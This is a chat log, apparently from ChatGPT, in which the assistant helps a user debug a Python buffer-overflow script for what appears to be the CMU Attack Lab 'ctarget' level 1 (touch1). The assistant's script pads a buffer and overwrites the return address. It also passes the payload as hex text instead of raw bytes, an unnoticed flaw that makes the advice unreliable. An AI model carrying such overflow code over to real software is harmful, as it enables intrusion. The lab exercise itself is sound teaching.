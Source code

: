 ```bash
python3 --version
```

* * *

**You:**

不知道为什么，运行脚本后啥也没有，没打中吗？

* * *

**ChatGPT:**

It's possible that the exploit string is not working as expected. To help diagnose the issue, we can add print statements to the script to display the generated exploit string and the output of the `ctarget` program.

Modify your `re_level1.py` script to include print statements for debugging:

```python
import subprocess
import struct

buffer_size = 0x18  # Replace with the actual buffer size
touch1_addr = 0x40195d  # Replace with the actual touch1 address

# Calculate the input length and create the exploit string
input_length = buffer_size + 8  # Assuming 8 bytes for the extra space
exploit_str = b'A' * input_length
exploit_str += struct.pack('<Q', touch1_addr)

# Print the exploit string
print(f'Exploit string: {exploit_str.hex()}')

# Run the ctarget program with the exploit string as input
cmd = f'./ctarget <<< {exploit_str.hex()}'
process = subprocess.run(cmd, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, universal_newlines=True)

# Print the output of the ctarget program
print('Output:')
print(process.stdout)
print('Error:')
print(process.stderr)
```

Run the modified script again:

```bash
python3 re_level1.py
```

This should print the generated exploit string and the output from the `ctarget` program. Check the printed information to see if anything looks incorrect, such as the exploit string format or the response from the `ctarget` program.

If the problem persists, please double-check the `buffer_size`, `touch1_addr`, and the assembly code in the `ctarget.txt` file to ensure that the script is using the correct values.
